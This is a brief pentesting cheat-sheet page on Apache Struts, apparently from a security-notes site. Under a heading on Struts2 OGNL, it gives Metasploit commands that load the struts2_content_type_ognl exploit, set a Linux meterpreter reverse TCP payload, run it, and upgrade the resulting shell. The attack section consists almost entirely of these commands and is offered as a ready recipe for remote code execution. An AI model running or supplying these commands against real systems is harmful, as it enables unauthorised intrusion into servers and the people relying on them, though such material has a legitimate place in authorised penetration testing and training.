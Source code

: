 ```yaml
---
title: Apache Struts Pentesting
description: An open-source web application framework for developing Java EE web applications.
tags:
    - Web
refs:
date: 2022-11-22
draft: false
---
```


## Struts2 OGNL Elavasion

Metasploit is useful for exploiting.

```sh
msfconsole
msf > use multi/http/struts2_content_type_ognl
msf > set payload linux/x86/meterpreter/reverse_tcp
msf > exploit

meterpreter > shell
SHELL=/bin/bash script -q /dev/null
```